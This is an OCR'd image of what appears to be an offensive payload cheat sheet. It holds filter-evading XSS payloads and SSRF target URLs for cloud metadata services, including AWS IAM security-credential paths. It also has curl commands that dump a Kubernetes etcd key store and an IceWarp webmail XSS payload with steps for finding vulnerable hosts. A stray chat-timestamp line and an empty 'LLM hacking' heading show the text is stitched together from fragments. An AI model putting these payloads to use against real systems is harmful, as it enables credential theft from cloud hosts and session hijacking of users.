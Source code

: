 ```
Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u -xss popup

<svg onload=alert%26%230000000040"1")>

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"//Onx=""//onfocus=prompt(1)>"//Onx=""//%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt1)"Onclick="([1].map(confirm))
```

Payload for Technologies:
Oracle
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data
http://192.0.0.192/latest/attributes/

Alibaba
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id

Kubernetes ETCD

curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
Rancher

sinzo, [8/16/2024 11:48 PM]
curl http://rancher-metadata/<version>/<path>
Google Cloud
metadata.google.internal/computeMetadata/v1beta1/

metadata.google.internal/computeMetadata/v1beta1/?recursive=true
AWS

http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data

http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
IceWarp 11.4.5.0 allows XSS via the language parameter.
Payload : /webmail/?language=%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E"
How to hunt:
http://<domain>/webmail/?language=%22%3E%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
LLM hacking?
Payload Splitting :

